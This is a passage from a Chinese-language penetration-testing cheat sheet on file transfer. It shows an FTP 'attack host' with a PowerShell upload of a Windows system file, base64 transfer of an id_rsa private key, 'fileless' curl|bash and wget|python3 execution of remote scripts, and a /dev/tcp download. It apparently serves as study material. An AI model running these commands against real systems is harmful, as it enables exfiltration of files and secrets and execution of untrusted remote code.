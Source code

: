 `注意： DavWWWRoot是 Windows Shell 识别的特殊关键字。您的 WebDAV 服务器上不存在这样的文件夹。DavWWWRoot 关键字告诉 Mini-Redirector 驱动程序，该驱动程序处理您连接到 WebDAV 服务器根目录的 WebDAV 请求。如果您在连接到服务器时指定服务器上存在的文件夹，则可以避免使用此关键字。例如：\192.168.49.128\sharefolder`

### 7. FTP 上传

```shell
# 设置 FTP 服务器
# --write允许客户端将文件上传到我们的攻击主机
sudo python3 -m pyftpdlib --port 21 --write

# Powershell 上传
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

## 二、Linux 文件传输

### 1. Base64 编码解码

```shell
# 检查哈希
md5sum id_rsa
cat id_rsa |base64 -w 0;echo
echo -n 'Base64字符串' | base64 -d > id_rsa
```

### 2. Wget & CURL 进行 WEB 下载

```shell
# wget 下载文件
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

# CURL 下载文件
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### 3. Linux 的无文件攻击

```shell
# 使用 CURl
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

# 使用 wget
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### 4. 使用 Bash (/dev/tcp) 下载

```shell
# 连接到目标 WEB 服务器
exec 3<>/dev/tcp/10.10.10.32/80
# HTTP  GET  请求
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# 打印响应
cat <&3
```
